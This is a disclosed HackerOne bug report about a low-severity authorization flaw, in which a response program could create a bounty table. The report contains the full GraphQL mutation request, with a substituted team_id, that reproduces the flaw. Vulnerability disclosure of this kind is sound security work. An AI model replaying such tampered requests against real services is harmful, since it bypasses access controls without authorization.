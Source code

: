 # Response program can create bounty table

## Report Details
- **Report ID**: 460920
- **URL**: https://hackerone.com/reports/460920
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-12-12T01:59:53.899Z
- **Disclosed**: 2019-01-07T15:37:42.943Z

## Reporter
- **Username**: nguyenlv7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Follow [h1 document] (https://docs.hackerone.com/programs/bounty-tables.html#___gatsby), create bounty table only available for bounty program.

**Description:**
* Step1: Create request to graphql  entrypoint
* Step2: Change team id in parameter like this: "team_id":"Z2lkOi8vaGFja2Vyb25lL1RlYW0vMzYyOTE=" (base_64 encode)

```
POST /graphql HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/bountyprogram/reward_settings
content-type: application/json
x-auth-token: █████████
origin: https://hackerone.com
Content-Length: 1512
Connection: close
Cookie: ███████

{"query":"mutation Update_bounty_table_mutation($input_0:UpdateBountyTableInput!,$first_1:Int!,$types_2:[ErrorTypeEnum]!) {\n  updateBountyTable(input:$input_0) {\n    clientMutationId,\n    ...F1,\n    ...F2\n  }\n}\nfragment F0 on Team {\n  id,\n  bounty_table {\n    low_label,\n    medium_label,\n    high_label,\n    critical_label,\n    description,\n    _bounty_table_rows3iMmxf:bounty_table_rows(first:$first_1) {\n      edges {\n        node {\n          id,\n          low,\n          medium,\n          high,\n          critical,\n          structured_scope {\n            id\n          }\n        },\n        cursor\n      },\n      pageInfo {\n        hasNextPage,\n        hasPreviousPage\n      }\n    },\n    id,\n    team {\n      id\n    }\n  }\n}\nfragment F1 on UpdateBountyTablePayload {\n  team {\n    id,\n    ...F0\n  }\n}\nfragment F2 on UpdateBountyTablePayload {\n  was_successful,\n  _errors2S3JlH:errors(types:$types_2) {\n    edges {\n      node {\n        type,\n        field,\n        message,\n        id\n      },\n      cursor\n    },\n    pageInfo {\n      hasNextPage,\n      hasPreviousPage\n    }\n  }\n}","variables":{"input_0":{"team_id":"Z2lkOi8vaGFja2Vyb25lL1RlYW0vMzYyOTE=","bounty_table_rows":[{"id":null,"destroy":false,"low":100,"medium":100,"high":100,"critical":100,"structured_scope_id":null}],"low_label":"Low","medium_label":"Medium","high_label":"High","critical_label":"Critical","description":"","clientMutationId":"0"},"first_1":100,"types_2":"ARGUMENT"}}
```

## Impact

* Create bounty table in response program and show it in home page.

## Attachments
No attachments
